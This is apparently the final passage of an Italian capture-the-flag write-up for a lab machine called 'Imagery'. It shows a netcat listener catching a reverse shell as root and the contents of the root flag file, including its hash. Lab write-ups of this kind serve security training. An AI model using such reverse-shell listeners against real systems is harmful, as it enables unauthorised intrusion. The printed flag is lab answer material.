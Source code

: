 Si attende l'esecuzione del job.

## Shell as Root

```bash

$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.x] from (UNKNOWN) [10.x.x.x] 58132
bash: cannot set terminal process group (134830): Inappropriate ioctl for device
bash: no job control in this shell
root@Imagery:~# 

```

Funziona!

Si ottiene il file **root.txt**.

```bash

root@Imagery:~# cat root.txt
cat root.txt
d9b623828857fd2ebe5fb94ce35d492f

```

---
